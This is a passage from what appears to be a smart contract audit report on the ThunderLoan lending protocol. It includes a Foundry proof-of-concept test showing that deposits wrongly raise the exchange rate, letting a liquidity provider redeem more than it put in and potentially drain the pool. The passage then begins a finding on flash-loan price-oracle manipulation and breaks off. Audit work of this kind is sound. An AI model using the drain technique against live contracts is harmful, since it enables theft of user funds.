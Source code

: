 ### POC

```solidity
function testExchangeRateUpdatedOnDeposit() public setAllowedToken {
	tokenA.mint(liquidityProvider, AMOUNT);
	tokenA.mint(user, AMOUNT);

	// deposit some tokenA into ThunderLoan
	vm.startPrank(liquidityProvider);
	tokenA.approve(address(thunderLoan), AMOUNT);
	thunderLoan.deposit(tokenA, AMOUNT);
	vm.stopPrank();

	// another user also makes a deposit
	vm.startPrank(user);
	tokenA.approve(address(thunderLoan), AMOUNT);
	thunderLoan.deposit(tokenA, AMOUNT);
	vm.stopPrank();        

	AssetToken assetToken = thunderLoan.getAssetFromToken(tokenA);

	// after a deposit, asset token's exchange rate has aleady increased
	// this is only supposed to happen when users take flash loans with underlying
	assertGt(assetToken.getExchangeRate(), 1 * assetToken.EXCHANGE_RATE_PRECISION());

	// now liquidityProvider withdraws and gets more back because exchange
	// rate is increased but no flash loans were taken out yet
	// repeatedly doing this could drain all underlying for any asset token
	vm.startPrank(liquidityProvider);
	thunderLoan.redeem(tokenA, assetToken.balanceOf(liquidityProvider));
	vm.stopPrank();

	assertGt(tokenA.balanceOf(liquidityProvider), AMOUNT);
}
```

# Medium

## Because only one liquidity pool is used to get asset token price, there exist opportunity for price manipulation through flash loans

### Summary

A single liquidity pool should never be used as sole source of price market data. These liquidity pool can be flash loan funded and therefore token price can be skewed drastically which can be used in many DeFi attacks.

### Details

